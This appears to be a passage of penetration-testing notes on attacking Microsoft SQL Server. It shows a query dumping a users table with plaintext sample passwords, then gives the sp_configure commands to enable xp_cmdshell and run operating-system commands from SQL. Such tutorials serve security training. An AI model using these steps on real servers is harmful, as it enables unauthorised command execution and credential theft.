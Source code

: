 ```cmd-session
1> SELECT * FROM users
2> go

id          username             password         data_of_joining
----------- -------------------- ---------------- -----------------------
          1 admin                p@ssw0rd         2020-07-02 00:00:00.000
          2 administrator        adm1n_p@ss       2020-07-02 11:30:50.000
          3 john                 john123!         2020-07-02 11:47:16.000
          4 tom                  tom123!          2020-07-02 12:23:16.000

(4 rows affected)
```

#### Execute Commands

`MSSQL` has a [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/database-engine-extended-stored-procedures-programming?view=sql-server-ver15) called [xp_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allow us to execute system commands using SQL
- xp_cmdshell is disabled by default. Enable it by using the Policy Based Management or by executing sp_configure
- Windows process spawned by `xp_cmdshell` has the same security rights as the SQL Server service account
- Control is not returned to the caller until the command-shell command is completed

**XP_CMDSHELL**
```cmd-session
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

Enable it using the following mssql code:
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```




